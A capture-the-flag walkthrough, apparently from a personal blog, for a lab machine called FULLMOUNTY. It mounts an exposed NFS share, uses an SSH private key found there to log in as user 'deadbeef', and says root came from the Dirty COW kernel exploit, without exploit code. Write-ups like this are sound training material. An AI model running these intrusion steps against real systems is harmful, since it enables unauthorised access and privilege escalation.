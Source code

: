 ### FULLMOUNTY

#### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dd23e073-c340-45ae-a2e2-dd28af07eaed)

enumerating other ports gives nothing

let's move to nfs

you can learn more about NFS enumeration [here](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)


so let's list the shares mount it

```mkdir /tmp/mount```

```showmount -e 10.150.150.134```

```sudo mount -t nfs -o vers=3 10.150.150.134:/srv/exportnfs /tmp/mount/ -o nolock```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/23fda0de-c7d7-47fa-adc2-f7896d027f0f)


from the result we have an ssh private key which can be used for sshing into the box

reading the public key *id_rsa.pub* we have a user ```deadbeef```

let's give permission to the ssh key file

```chmod 600 id_rsa```

so ```ssh -i id_rsa deadbeef@10.150.150.134```
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c9e63b9b-276b-46c1-ac5c-4594ec4a7c93)

And yeah we have the user flag.

### Privilege escalation

The Kernel version is vulnerable to dirtycow exploit

to confirm that run ```uname -a```

Also, for you to be able to exploit it, you need to compile the exploit on an Ubuntu machine with the same kernel version.

Doing that i was able to escalate privilege successfully

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/39f5c047-110a-4ce5-a0fe-1e83b94f5b72)


Thanks.


